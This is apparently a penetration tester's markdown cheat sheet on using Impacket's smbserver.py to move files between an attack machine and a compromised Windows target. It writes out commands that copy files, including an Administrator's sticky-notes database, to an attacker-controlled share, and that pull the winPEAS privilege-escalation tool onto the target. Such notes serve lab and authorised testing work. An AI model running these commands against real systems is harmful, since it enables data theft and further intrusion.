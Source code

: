 ```yaml
---
tags:
---
```

# smbserver

Quick SMB server to upload and download files

## Capabilities

```powershell
# Setup SMB server
smbserver.py -smb2support share $(pwd)
smbserver.py -smb2support share $(pwd) -username test -password test

smbserver.py -smb2support share $(pwd) -username mojo -password 'Password123!'
net use \\$OUR_IP\share /user:$USER $PASSWD
cp 'C:\Users\Administrator\Documents\Simple Sticky Notes\Notes.db' \\$OUR_IP\share\Notes.db
```

Interact with the SMB server from the target's machine

```powershell
# Move file from target to attack box
cp $FILE \\$OUR_IP\share\$FILE

# Move file from attack box to target
cp \\$OUR_IP\share\winPEASany.exe winPEAS.exe

# Include authentication
net use \\$OUR_IP\share /user:$USER $PASSWD

# Clean up share
net use \\$OUR_IP\share /delete
```
